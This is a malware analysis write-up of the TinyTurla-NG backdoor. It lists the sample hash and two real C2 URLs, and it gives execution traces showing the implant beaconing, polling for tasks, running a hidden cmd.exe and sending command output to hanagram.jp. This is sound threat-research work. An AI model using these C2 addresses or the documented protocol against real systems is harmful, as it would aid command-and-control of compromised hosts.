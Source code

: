 SHA256 : 267071DF79927ABD1E57F57106924DD8A68E1C4ED74E7B69403CDCDF6E6A453B  
sample source : https://bazaar.abuse.ch/sample/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b/  
VT : https://www.virustotal.com/gui/file/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b  
Report: https://blog.talosintelligence.com/tinyturla-next-generation/  


C2 :  
https://thefinetreats.com/wp-content/themes/twentyseventeen/rss-old.php  
https://hanagram.jp/wp/wp-content/themes/hanagram/rss-old.php  

Analyzed sample is a 64bit Service DLL attributed to TURLA by TALOS and named TinyTurla-NG.

Results are shared in two files :

    logs.txt which contains an execution trace of the malware until it connects to a C2 and execute 2 chosen commands
    conf.txt which contains the configuration used to analyse this sample, notably the list of API call filtered from the logs

**Commentary**

Analysed sample is already well described in the TALOS report so I won't go into details.  
For this analysis, I chose to rebuild a small C2 and order the malware to execute the following commands while supervised :  

- dir C:\users  
- get https://hanagram.jp/hanagram.cert toto.cer  

---

First Beaconing to a reachable C2 :  

```html
[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x3e803410
[PAR] LPCWSTR       pswzServerName : 0x000000F43F8A4850
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff146bbb16 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x3f66b470
[PAR] LPCWSTR   pwszVerb          : 0x000000F44055F668
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000F43F2C6E40
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff146bbc26 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000F43F5920B0
[PAR] LPCWSTR   pwszHeaders      : 0x000000F43F2C6E40
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0xbe
[RET] 0x7fff146bd38b in [tinyturla.dll]

Thread created by monitored process : Now monitoring [pid 0x254][tid 0x2d4]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000F43F5920B0
[PAR] LPCVOID   lpBuffer                 : 0x000000F43F8AE4C0
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="result""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "Client Ready" <-- Ready for buisiness>
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0xbe
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000F44055F6C0
[RET] 0x7fff146bd3f2 in [tinyturla.dll]
```

As mentionned in the report the first beaconing contains the "Client Ready" message to signal the C2 that the is malware is up and ready to receive orders.  

---  

With the following 'gettask' message, the malware is offering the C2 an opportunity to reply with an order :  

```html
[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x3e803dc0
[PAR] LPCWSTR       pswzServerName : 0x000000F43F8A4E50
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff146bbb16 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x3f66aad0
[PAR] LPCWSTR   pwszVerb          : 0x000000F44055F728
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000F43F3BD070
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff146bbc26 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000F43F370140
[PAR] LPCWSTR   pwszHeaders      : 0x000000F43F3BC580
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0xaf
[RET] 0x7fff146bd38b in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000F43F370140
[PAR] LPCVOID   lpBuffer                 : 0x000000F43E806620
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="gettask"" <-- your wish is my command>
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0xaf
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000F44055F780
[RET] 0x7fff146bd3f2 in [tinyturla.dll]
```
---  

First command :  

I've chosen to make the malware execute the following command : 'rsp: dir c:\users'   
Which triggered the following behavior :  

Note thet thread executing the command **[tid 0x968]** is not the one sending the result back to the C2 **[tid 0x664]**  

```html
[ * ] [pid 0x254][tid 0x968] c:\windows\system32\svchost.exe
[API] <CreateProcessA> in [KERNEL32.DLL] 
[PAR] LPCTSTR               lpApplicationName    : 0x0 (null)
[PAR] LPCTSTR               lpCommandLine        : 0x00007FFF146E0888
[STR]                       -> "C:\Windows\System32\cmd.exe"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes  : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes   : 0x0
[PAR] BOOL                  bInheritHandles      : 0x1
[PAR] DWORD                 dwCreationFlags      : 0x8000000 (CREATE_NO_WINDOW)
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCSTR                lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOA        lpStartupInfo        : 0x000000F4405DF820
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x000000F4405DF800
[RET] 0x7fff146b46b0 in [tinyturla.dll]

[...]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x3e803410
[PAR] LPCWSTR       pswzServerName : 0x000000F43F8A52A0
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff146bbb16 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x3f66ac30
[PAR] LPCWSTR   pwszVerb          : 0x000000F44055F748
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000F43F3BC580
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff146bbc26 in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000F43F66A450
[PAR] LPCWSTR   pwszHeaders      : 0x000000F43F3BD1C0
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0x2fc
[RET] 0x7fff146bd38b in [tinyturla.dll]

[ * ] [pid 0x254][tid 0x664] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000F43F66A450
[PAR] LPCVOID   lpBuffer                 : 0x000000F43F892EB0
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="result""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              ""
[STR]              "Microsoft Windows [version 6.3.9600]"
[STR]              "(c) 2013 Microsoft Corporation. Tous droits r‚serv‚s."
[STR]              ""
[STR]              "C:\Windows\system32>chcp 437 > NUL"
[STR]              ""
[STR]              "C:\Windows\system32>dir c:\users"
[STR]              " Le volume dans le lecteur C n'a pas de nom."
[STR]              " Le num‚ro de s‚rie du volume est 689B-5BB9"
[STR]              ""
[STR]              " R‚pertoire de c:\users"
[STR]              ""
[STR]              "21/10/2024  23:42    <DIR>          ."
[STR]              "21/10/2024  23:42    <DIR>          .."
[STR]              "22/08/2013  16:36    <DIR>          Public"
[STR]              "27/02/2025  04:09    <DIR>          user"
[STR]              "               0 fichier(s)                0 octets"
[STR]              "               4 R‚p(s)  47ÿ927ÿ406ÿ592 octets libres"
[STR]              ""
[STR]              "C:\Windows\system32>exit"
[STR]              ""
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0x2fc
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000F44055F7A0
[RET] 0x7fff146bd3f2 in [tinyturla.dll]

```

As you can see, the malware is forcing the code page 437 (US) to be used even though my system is in french, hence the few misprints.  

---  

